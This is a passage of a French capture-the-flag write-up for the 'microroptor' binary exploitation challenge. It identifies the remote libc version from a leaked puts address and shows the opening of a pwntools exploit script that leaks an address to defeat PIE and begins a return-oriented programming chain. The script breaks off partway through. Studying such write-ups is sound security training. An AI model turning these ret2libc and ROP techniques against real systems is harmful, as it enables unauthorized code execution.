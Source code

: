 ![https://libc.blukat.me/?q=_IO_puts%3A0x7350935b15f0](img/libc_blukat.png)

Il nous retourne donc 6 résultats. On peut déjà écarter les 3 premiers qui
concernent des versions 32bits. Pour faire le choix entre les 3 versions
restantes, on peut soit leaker l'adresse d'une autre fonction de la libc, soit
toutes les tester. J'ai choisi la seconde option x).  
  
On télécharge donc les 3 libc, et on indique à notre script quelle libc
utiliser. On va commencer par la première (`libc6_2.31-13_amd64.so`) :
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./microroptor")
# libc = ELF("/usr/lib/libc.so.6")
libc = ELF("libc/libc6_2.31-13_amd64.so")

context.binary = exe.path
context.terminal = ["tmux", "new-window"]


def conn():
    if args.REMOTE:
        r = remote("challenges.france-cybersecurity-challenge.fr", 2052)
    else:
        r = process([exe.path])

    return r

def attach_gdb():
    if args.GDB:
        gdb.attach(r, gdbscript="""
source ~/.gdbinit-gef.py
b*main+0x75
        """)


def main():
    global r
    r = conn()
    attach_gdb()

    exe.symbols["main"] = 0x1178
    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
```